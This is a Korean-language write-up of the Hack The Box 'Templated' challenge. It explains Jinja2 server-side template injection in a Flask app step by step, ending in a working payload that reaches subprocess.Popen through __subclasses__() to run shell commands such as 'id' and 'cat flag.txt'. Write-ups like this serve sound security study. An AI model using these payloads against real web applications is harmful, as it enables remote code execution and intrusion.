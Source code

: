 ```yaml
---
title: Hack The Box - Templated
date: 2023-02-14
author: glasses96
categories: [Wargame, Hack The Box]
tags: [Hack The Box, Templated, SSTI, Write-up]
pin: true
math: true
mermaid: true
---
```


> **Hack The Box Templated 문제를 풀어봅시다.**
{: .prompt-info }

---

## Description
>Can you exploit this simple mistake?

----
## Solve
문제 웹 사이트에 접근하면 다음과 같다.
`Flask`로 만들어진 웹 페이지를 확인할 수 있다.

![jinja2](/assets/post/19/1.png)


URL에 test 입력시 test라는 문구가 출력된다.

![test](/assets/post/19/2.png)

`SSTI` 공격이 가능할 것으로  추측되어 `${{7*7}}`를 입력 해보니 49가 출력이 된다.

![49](/assets/post/19/3.png)

쉘을 실행시키기 위해 `subprocess.Popen` 찾았다.
인덱스는 `414`이다.

![subprocess.Popen](/assets/post/19/4.png)

이다음 `cat flag.txt`를 하여 플래그를 획득할 수있다.

![Flag](/assets/post/19/5.png)

## How is RCE possible?
python에서 모든 객체는 `{{ __class__ }}` 속성을 가집니다.
```py
{{ ''.__class__ }}
#<class 'str'>

```

`__mro__`를 통해 자신과 자신이 상속받은 클래스, 상속받은 클래스의 상위 클래스까지 순서대로 튜플 타입으로 반환합니다.
`__base__`를 통해 object 클래스에 접근할수도 있습니다.

```py
{{ ''.__class__.__mro__ }}
#(<class 'str'>, <class 'object'>) #우리는 object 타입을 이용할 것이므로 [1]인덱스를 필요로합니다.
```
`__subclasses__`는상속을 받는 클래스가 어떻게 구성이 되어 있는지를 나타냅니다.
엄청나게 많은 클래스들이 나오며 우리가 필요한 클래스 인덱스를 찾아 사용이 가능합니다.

```py
{{ ''.__class__.__mro__[1].__subclasses__() }}
#[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>....
```
414 인덱스에는 `subprocess.Popen`이 됩니다.
`subprocess.Popen`을 사용하는 이유는`subprocess.Popen`을 이용하여 쉘 명령을 실행할 수 있습니다. 
 [subprocess](https://docs.python.org/3/library/subprocess.html)를 보면 `os.system` 모듈과 기능을 대체한다고 되어있습니다. 

```py
{ ''.__class__.__mro__[1].__subclasses__()[414] }}
#<class 'subprocess.Popen'>
```
[Popen](https://docs.python.org/ko/3.9/library/subprocess.html#subprocess.Popen)을 보시면 Popen의 생성자를 알 수 있습니다.
>class subprocess.Popen(args, bufsize=-1, executable=None, stdin=None, stdout=None, stderr=None, preexec_fn=None, close_fds=True, shell=False, cwd=None, env=None, universal_newlines=None, startupinfo=None, creationflags=0, restore_signals=True, start_new_session=False, pass_fds=(), *, group=None, extra_groups=None, user=None, umask=-1, encoding=None, errors=None, text=None)¶

`args`에는 `id` 라는  명령이 들어가며, `shell=True`를 통해 쉘을 호출합니다.
subclasses.Popen는 기본적으로 `Shell=False`로 지정되기 때문에 `shell=True`를 통해 쉘을 호출해야합니다.

그리고`stdout=-1`을 통해 표준출력을 지정합니다. -1은 `subprocess.PIPE`을 의미합니다. [subprocess.PIPE = -1인 이유](https://github.com/python/cpython/blob/3.10/Lib/subprocess.py#L259)
마지막으로 `communicate()`에서 stdout에서 데이터를 읽어옵니다.

```py
{{ ''.__class__.__mro__[1].__subclasses__()[414]('id',shell=True,stdout=-1).communicate() }}
```

![id](/assets/post/19/6.png)

## Reference
https://me2nuk.com/SSTI-Vulnerability/
https://watchout31337.tistory.com/177
https://stackoverflow.com/questions/71547832/popen-stdout-value